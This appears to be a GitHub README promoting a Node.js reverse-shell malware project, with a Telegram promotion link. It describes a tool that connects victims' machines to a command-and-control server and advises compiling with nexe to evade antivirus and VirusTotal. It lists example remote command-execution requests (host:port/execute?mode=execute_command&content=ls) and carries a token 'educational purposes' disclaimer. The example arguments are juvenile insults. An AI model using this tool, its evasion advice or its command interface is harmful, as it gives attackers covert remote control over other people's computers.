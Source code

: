 ** t.me/extortment for more projects like this**

Project Name: Dudullu Kabusu | Nightmare of dudullu.

Dudullu is a hood in turkey that I used to live in.

What is this project? 

This project is a reverse shell/terminal that connects to a CNC made in Node.js

Why Node.js? 

When you make a malware/grabber in Node.js and compile it with nexe, it becomes fully undetectable by most of the popular AVs and Virustotal.

How long it took to make it?

A night with no sleep probably (1-2 hours) 

Why did I make it?

I made it for educational purposes, I am not responsiable for any fraudulent/malicious activies with this source code

YOU HAVE TO MODIFY THIS CODE FOR USAGE

api example

host:port/execute?mode=execute_command&content=echo&arg=gay&arg2=imgay
host:port/execute?mode=execute_command&content=echo&arg=gay
host:port/execute?mode=execute_command&content=ls

